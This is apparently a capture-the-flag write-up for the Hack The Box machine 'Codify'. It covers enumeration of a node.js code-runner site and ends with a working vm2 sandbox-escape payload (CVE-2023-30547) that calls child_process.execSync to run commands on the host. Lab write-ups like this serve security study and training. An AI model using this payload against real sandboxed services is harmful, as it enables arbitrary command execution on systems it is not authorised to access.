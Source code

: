 # HTB - Codify

Target IP - 10.10.11.239

## Enumeration

#### Nmap

![[Pasted image 20250110181825.png]]

#### Website

Add the website `codify.htb` to our `/etc/hosts`.
Now we can view our website.

![[Pasted image 20250110182417.png]]

Clicking `Try it now` we head to a place where we can run node.js code. If there are any vulnerabilities, it would be through this editor:

![[Pasted image 20250110182524.png]]

Checking the About Us page, we see that the code editor uses the vm2 library for protection:

![[Pasted image 20250110182805.png]]

## Exploit

Searching online for a VM2 vulnerability online, we come across a RCE (Remote Code Execution) vulnerability under the CVE-2023-30547, here is the following code that can be executed which will bypass the sandbox and thus we will be able to execute commands on the underlying target system:

```
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('ls -la');
}
```
